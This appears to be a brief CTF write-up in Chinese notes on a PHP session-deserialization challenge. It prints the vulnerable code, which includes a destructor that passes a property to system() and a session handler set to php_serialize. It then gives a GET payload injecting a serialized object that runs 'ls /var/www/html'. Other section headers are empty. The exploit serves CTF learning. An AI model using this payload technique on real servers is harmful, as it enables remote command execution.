 
# web
### ser2
#session反序列化
- index.php
```php
<?php  
show_source("index.php");  
session_start();  
class Exec{  
    public $commond;  
    function __destruct(){      system($this->commond);  
    }  
  }  
$str = new Exec();  
?>
```

- phpinfo.php
```php
<?php  
error_reporting(0);  
show_source("phpinfo.php");  
ini_set('session.serialize_handler','php_serialize');  
session_start();  
$_SESSION['aaa'] = $_GET['aaa'];  
phpinfo();  
?>
```

*payload*
`/phpinfo.php?aaa=|O:4:"Exec":1:{s:7:"commond";s:16:"ls /var/www/html";}`
发送后访问`index.php` 即可

![!img](https://img.php.cn/upload/article/000/000/067/be69afd137ffe0e5382767c78090c8c8-0.png)


# reverse

# pwn

# crypto

# Misc



# pentest

### 

### 正向代理


---
## *相关wp*




2023-05-28   00:41